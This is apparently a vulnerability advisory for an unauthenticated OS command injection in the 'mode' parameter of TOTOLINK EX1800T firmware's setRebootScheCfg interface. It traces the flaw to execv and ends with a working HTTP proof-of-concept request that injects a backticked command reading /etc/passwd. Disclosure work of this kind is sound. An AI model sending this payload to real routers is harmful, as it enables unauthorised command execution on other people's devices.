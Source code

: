 # OS Command Injection 04 setRebootScheCfg->mode

## TOTOLINK EX1800T OS Command Injection Vulnerability

Vendor：Totolink

Product：EX1800T

Firmware：https://www.totolink.net/home/menu/detail/menu\_listtpl/download/id/223/ids/36.html

Affected Version：V9.1.0cu.2112\_B20220316

Class：OS Command Injection

Summary：TOTOLINK EX1800T V9.1.0cu.2112\_B20220316 is vulnerable to unauthorized arbitrary command execution in the ‘mode’ parameter of the setRebootScheCfg interface of the cstecgi .cgi. This vulnerability don't need to login, due to insufficient input validation and sanitization, an attacker can exploit this flaw by injecting malicious OS commands through the mode field. Successful exploitation allows the attacker to execute any command.

## Vulnerability details

In the TOTOLINK EX1800T V9.1.0cu.2112_B20220316 firmware has a Command Injection Vulnerability in `setRebootScheCfg`​ Interface, `mode`​variable recevies the key parameter:

![image](assets/image-20250305142658-3odv8n2.png)

And passes it to the `Uci_Set_Str`​ function for processing. However `Uci_Set_Str`​ function will final call `execv`​ and the parameter contains the `mode`​'s value

In `Uci_Set_Str`​:

![image](assets/image-20250305134119-m70q2q6.png)

the `a4`​ parameter we can pass by `mode`​, here will call `snprintf`​ function to splice the strings to `v12`​，and call `CsteSystem`​, this will call execv function and trigger OS Command Injection

![image](assets/image-20250305134440-eim7vg9.png)

## POC

```markdown
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset:utf-8
Content-Length: 138
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/page/index.html?timestamp=1741068107856
Priority: u=0

{"mode":"123`cat /etc/passwd>>../mode.txt`","week":"","hour":"","minute":"","recHour":"","token":"","topicurl":"setting/setRebootScheCfg"}
```

![image](assets/image-20250305142354-r2tba7j.png)

![image](assets/image-20250305142400-92to9h4.png)
